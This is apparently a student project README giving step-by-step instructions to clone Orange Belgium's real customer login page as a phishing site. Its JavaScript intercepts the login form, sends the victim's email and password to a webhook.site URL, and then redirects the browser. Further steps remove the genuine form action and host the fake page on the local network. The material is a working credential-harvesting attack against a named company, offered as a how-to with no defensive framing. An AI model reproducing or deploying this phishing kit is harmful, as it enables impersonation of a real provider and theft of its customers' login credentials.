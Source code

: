 # Simulate the Orange Customer Connexion Webpage

## 1) Get the source code of the page

- Go to : https://www.orange.be/fr/e-services/login
- ctrl + s or right click and "save as"

## 2) Get a webhook

- Go to : webhook.site
- Copy the url (you gonna need it soon)

## 3) Write a script to return info to webhook

- open a new JS file here ´data.JS´
- write this script (and use the url of the webhook)

>  let myForm = document.getElementById('sso-form');  // "let name" create a variable and then we put in it the content of an id. Here id of the form
>  let formEmail = document.getElementById('sso-email'); // id of the mail input
>  let formPassword = document.getElementById('sso-password');// id of the password input
>  
>  myForm.addEventListener('submit', (e) => { // we wait for specific moment to run, here it's the submit button
>    e.preventDefault();
>   fetch('https://webhook.site/ccbd4eb0-f4b0-48c0-96da-4a96ab73004c', { //when it's in action the script fetch the data and return it to the web hook url
>       method: "POST",
>        body: JSON.stringify({ //this line transform the data we collect (who's in json format) and transform it into strings
>            username: formEmail.value, //here we say to stock those string into the variable we have creat on the top
>            password: formPassword.value
>        })
>    }).then(window.location.href = "https://www.youtube.com/watch?v=dQw4w9WgXcQ&ab_channel=RickAstley"); // after all of this the user is redirected to this URL
>  })
>
> [![](https://github.com/Mahgnislaw/BecodeProjects/blob/main/2_The%20hill/Phishing/Phising%20Site/Orange/img/data.js.png)


## 4) Make some change on the HTML 

- remove this part from sso-form :
>  action="https://sso.orange.be/auth/sm/login.fcc" data-soho-check="/e-services/userCheck/b2b" data-soho-target="https://e-services.business.orange.be/fr/espace-client-soho/?fromB2C=true">

- On the bottom of the form put your script link

 [![](https://github.com/Mahgnislaw/BecodeProjects/blob/main/2_The%20hill/Phishing/Phising%20Site/Orange/img/callScript.png)
 [![](https://github.com/Mahgnislaw/BecodeProjects/blob/main/2_The%20hill/Phishing/Phising%20Site/Orange/img/CallScriptPosition.png)



-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

**Normaly it should work localy**

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------


## Make a local server to host it

- Dont forget to rename your webpage into index.html
- on your folder open the terminal and write this command to launch a python server `py -m http.server` (the default port is 8000)
- You can acces your webpage with localhost:8000
- Other person on the same network can have acces to id with yourIP:8000


**Eazy Peazy Lemon Squezzy**
**RESULT**

On fake Orange
[![](https://github.com/Mahgnislaw/BecodeProjects/blob/main/2_The%20hill/Phishing/Phising%20Site/Orange/img/orangeCO.png)

On webhook
> [![](https://github.com/Mahgnislaw/BecodeProjects/blob/main/2_The%20hill/Phishing/Phising%20Site/Orange/img/webhookResult.png)


